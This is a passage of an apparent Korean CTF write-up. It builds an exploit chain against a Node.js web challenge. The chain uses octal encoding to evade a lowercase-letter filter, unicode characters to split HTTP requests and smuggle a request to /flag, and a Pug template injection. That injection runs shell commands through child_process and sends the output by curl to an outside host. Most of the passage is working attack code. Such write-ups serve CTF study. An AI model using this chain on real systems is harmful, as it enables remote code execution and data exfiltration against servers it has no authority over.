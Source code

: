 대략 이런형태로 내가 원하는 명령어를 보내고 그다음 서버에서 다시한번 처리를 하고 저의 서버로 전송하도록 하였습니다.

이제 우회를 시키는 스크립트를 작성합니다.

일단 pug 헤더에 담긴 공격 payload가 영문 소문자가 포함이 되었는지 확인 하는 루틴이 있는데 이것은 8진법으로 변환하여 우회해봅니다.

```js
def changeOct(str):
    r=""
    for i in str:
        if i>='a'and i<='z':
            r+='\\'+oct(ord(i))[2:]
        else:
            r+=i
    return r
```

그리고 이제 payload 부분을 쉽게 제작 할 수 있도록 우회 문자를 상수로 선언하여 작성합니다.

```
SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

payload = "test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF*2+"GET"+SPACE+SLASH+"flag"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"adminauth:"+SPACE+"secretpassword"+CRLF+"pug:"+SPACE+공격 PUG 값이 들어올 자리+CRLF+"test:"+SPACE
```

이제 이러한 스크립트를 결합하여 일단 현재 경로에 무엇이 있는지 확인 해봅니다.

```js
import requests
from requests.utils import quote

def changeOct(str):
    r=""
    for i in str:
        if i>='a'and i<='z':
            r+='\\'+oct(ord(i))[2:]
        else:
            r+=i
    return r

SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

pug = changeOct('''-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl http://devjs.cf:8089/cookie.php -X POST -d c=`ls | grep flag` '))")()''').replace('"','%22').replace("'","%27")
print (quote(pug)) #url-encoding

payload = "test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF*2+"GET"+SPACE+SLASH+"flag"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"adminauth:"+SPACE+"secretpassword"+CRLF+"pug:"+SPACE+pug+CRLF+"test:"+SPACE

res=requests.get('http://devjs.cf:8081/core?q='+quote(payload))
print (res.url)

```
